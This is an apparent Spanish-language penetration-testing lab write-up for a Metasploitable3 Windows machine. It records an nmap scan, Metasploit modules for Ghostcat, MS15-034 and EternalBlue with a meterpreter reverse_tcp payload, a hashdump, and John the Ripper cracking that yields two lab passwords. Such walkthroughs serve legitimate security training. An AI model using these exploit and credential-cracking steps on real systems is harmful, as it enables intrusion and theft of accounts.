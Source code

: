 # MS3-WIN

## Enumeración

```
sudo nmap -sV -T4 -p- 10.0.2.14
```
![Imagen](images/image.png)

## CVE-2021-41381

Está pendiente de análisis.
https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2021-41381

## CVE-2016-6794

No explotable.

## CVE-2010-0219

No explotable.

## CVE-2020-1938

Ejecutando el siguiente módulo en Metasploit:

```
auxiliary/admin/http/tomcat_ghostcat
```

Hemos podido leer un archivo extraído del servidor Tomcat (puerto 8009); es decir, se muestra el contenido de un archivo XML (web.xml en este caso) que contiene la configuración básica de la aplicación web de Tomcat.

![Imagen](images/image-1.png)

## CVE-2015-1635

Haciendo uso del siguiente módulo de Metasploitable:

```
scanner/http/ms15_034_http_sys_memory_dump
```

Obtenemos un volcado hexadecimal junto con su representación en ASCII. Esto indica que se ha capturado parte de la respuesta HTTP generada por el servidor y que es vulnerable a ataques que explotan el manejo inadecuado de solicitudes HTTP.

![Imagen](images/image-2.png)

## CVE-2017-0143 (ETERNALBLUE)

Ejecutando el módulo de`exploit/windows/smb/ms17_010_eternalblue`con el payload de`windows/x64/meterpreter/reverse_tcp`pudimos abrir una sesión de meterpreter.

![Imagen](images/image-3.png)

Hacemos un`hashdump`y obtenemos todos los hashes de las contraseñas de los usuarios del sistema:

![Imagen](images/image-4.png)

Copiamos este resultado a un fichero llamado`hash.txt`y utilizamos `John the Ripper`:

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Obtuvimos los credenciales de dos usuarios del sistema:

- **Administrato**r: vagrant
- **c_three_pio**: pr0t0c0l

![Imagen](images/image-5.png)


